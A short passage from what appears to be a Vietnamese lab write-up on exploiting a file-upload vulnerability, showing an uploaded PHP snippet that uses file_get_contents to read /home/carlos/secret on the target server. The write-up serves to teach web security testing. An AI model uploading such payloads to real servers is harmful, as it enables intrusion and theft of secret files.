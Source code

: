     <img src="./img_file/4.png" style="width: 600px">
    </p>

  - Tôi đã thử upload file php với nội dung như sau:

    ```php
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ```

  - Hàm `file_get_contents` có chức năng đọc nội dung file thành một chuỗi.
  - Sau khi upload lên tôi đã đọc được nội dung của `/home/carlos/secret`:

    <p align="center">